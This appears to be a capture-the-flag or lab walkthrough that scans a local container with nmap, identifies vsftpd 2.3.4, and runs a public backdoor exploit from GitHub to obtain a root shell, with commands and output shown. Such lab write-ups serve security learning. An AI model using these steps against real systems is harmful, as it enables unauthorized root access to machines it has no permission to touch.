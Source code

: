 # FirstHacking

## Reconnaissance and Enumeration.

Check that the machine is running.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Once we get a ping response, we can start enumerating the machine. The ttl=64 can indicate that it is a **Linux** machine.

We launch nmap to see what ports it finds.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Performs a SYN scan.
- `-p-`: Scans all ports.
- `--open`: Shows only open ports.
- `--min-rate 5000`: Sets the minimum packet sending speed to 5000 per second.
- `-vvv`: Generates very detailed and verbose output.
- `-n`: Avoids reverse DNS resolution.
- `-Pn`: Skips host detection.
- `-oG allPorts`: Saves the results to a file called "allPorts".
- `172.17.0.2`: The IP address of the target host.

```
PORT STATE SERVICE REASON
21/tcp open ftp syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Since we have port 21 open, we are going to check the versions and run some basic scripts to see what information we get.

```bash
nmap -sCV -p21 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Scan for versions and vulnerabilities.
- `-p21`: Scan for ports 21 (FTP).
- `-vvv`: Very verbose and verbose output.
- `-oN versionPorts`: Save the results to "versionPorts".
- `172.17.0.2`: IP address of the scanned host.

```bash
PORT STATE SERVICE REASON VERSION
21/tcp open ftp syn-ack ttl 64 vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix
```
We see that the ftp version is vsftpd 2.3.4, we check in searchsploit if it is vulnerable and we see if there are exploits that we could use.
```bash
❯ searchsploit vsftpd 2.3.4
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit) | unix/remote/17491.rb
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
## Exploitation.

In this case I'm going to use an exploit that we found in [GITHUB](https://github.com/Hellsender01/vsftpd_2.3.4_Exploit). We follow the instructions on the page and it creates a reverse shell as the root user of the machine.

```bash
sudo python3 -m pip install pwntools
git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git
cd vsftpd_2.3.4_Exploit/
chmod +x exploit.py
```
```bash
python3 exploit.py 172.17.0.2
```
```bash
❯ python3 exploit.py 172.17.0.2
[+] Got Shell!!!
[+] Opening connection to 172.17.0.2 on port 21: Done
[*] Closed connection to 172.17.0.2 port 21
[+] Opening connection to 172.17.0.2 on port 6200: Done
[*] Switching to interactive mode
$whoami
root
```
